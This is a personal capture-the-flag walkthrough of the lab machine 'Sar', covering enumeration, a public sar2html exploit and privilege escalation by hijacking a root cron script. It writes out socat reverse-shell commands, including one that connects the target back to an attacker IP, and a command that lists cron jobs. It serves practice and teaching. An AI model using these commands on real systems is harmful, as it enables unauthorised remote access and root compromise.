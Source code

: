 # PG Play - Sar
## Author: Love Sharma
## Released on: Jul 20, 2020
### Difficulty: Easy
### Community Difficulty: Easy
### Description: This is not a conventional foothold-privesc type of machine. Only proof.txt is a valid flag.
| Step: | Notes: |
| --- | --- |
| 1. | I ran a all ports nmap scan without a T4 switch to get started and ran another in parallel for speed with a T4 switch and of only common ports. |
| 2. | My fast NMAP scan found port 80 opened out of habit I manually checked for common files in the web directory, and found sar2html in robots.txt. |
| 3. | I found an exploit for sar2html which I figured I'd test out real quick. https://github.com/AssassinUKG/sar2HTML&ved=2ahUKEwi64tH145iFAxWepVYBHRJtC3gQFnoECAsQAQ&usg=AOvVaw09b6JcvNV9blzX1NKL5321 |
| 4. | This gave me a foothold with a dumb shell as the www user, I now needed to spawn a tty shell. |
| 5. | I tested a few different types of tty shell spawns, php, python, nc (no -e because of version issue but the nc tty without a -e didn't work either) the one that worked was a socat used below commands |
| 5.1 | On my attack box ```socat file:`tty`,raw,echo=0 tcp-listen:4444``` |
| 5.2 | On the target ```socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:192.168.45.175:4444``` | 
| 6. | I'd transferred linpeas over earlier with the dumb shell but made it a priority to get a tty first. I found that I had access to the /var/spool/cron/crontabs folder which included cron jobs for the root user. I discovered that a script called finally.sh ran on every 5th minute as a cron job this file was only executable and readable by me. |
| 6.1 | I found another nice command that could of found this cron job quicker: ```cat /etc/cron* /etc/at* /etc/anacrontab /var/spool/cron/crontabs/root 2>/dev/null | grep -v "^#"``` |
| 7. | I navigated to the finally.sh file at ```/var/www/html/finally.sh``` |
| 8. | When I read the finally.sh I found the scripts only purpose is to run another script called write.sh every 5th minute, I had read, write and execute permissions of the write.sh file. All the write.sh file did was create a empty file in the tmp directory called gateway. |
| 9. | I modified write.sh to include the socat reverse shell, since the cronjob for finally.sh ran every 5 minutes it would provide me, in theory which a reverse shell as root. |
| 10. | This worked and I was able to obtain the proof.txt for this machine |

| Lessons Learnt: | |
| --- | --- |
| 1. | This machine reminded me of a couple of things I learnt from the TCM Academy course on Ethical hacking, which was taking advantage of files that were either directly ran as root and I was capable of modifying. |
| 2. | The value of a tty shell |
